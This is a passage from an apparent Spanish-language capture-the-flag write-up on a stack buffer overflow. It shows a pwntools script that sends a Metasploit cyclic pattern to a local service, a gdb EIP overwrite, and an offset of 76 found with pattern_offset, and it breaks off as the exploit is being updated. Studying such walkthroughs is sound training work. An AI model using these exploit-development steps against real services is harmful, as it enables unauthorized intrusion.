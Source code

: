 esto significa que el binario es vulnerable a buffer overflow.

#### Buffer Overflow

En esta parte, podríamos usar el binario sender para poder enviar el payload, pero para que sea mas entendible voy a crear un exploit con python el cual realiza lo mismo que usando sender. Primero crearemos la base:

```python
#!/usr/bin/env python3


from pwn import *


def exploit():


    host='127.0.0.1'
    port='7777'


    pattern = b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A"

    
    payload = pattern


    p = remote(host, port)
    p.sendline(payload)
    p.close()




if __name__ == '__main__':
    exploit()
```

este exploit, envía un pattern (`/opt/metasploit/tools/exploit/pattern_create.rb -l 100`) el cual nos permitirá saber el offset exacto del binario, nos ponemos con gdb (`gdb -q server`) y al ejecutar el exploit vemos lo siguiente:


```css
EIP  0x63413563 ('c5Ac')
```

pasamos "c5Ac" por `pattern_offset` de metasploit y nos dice lo siguiente:

```css
[*] Exact match at offset 76
```

por lo que ya sabemos el offset, vamos a actualizar el exploit:
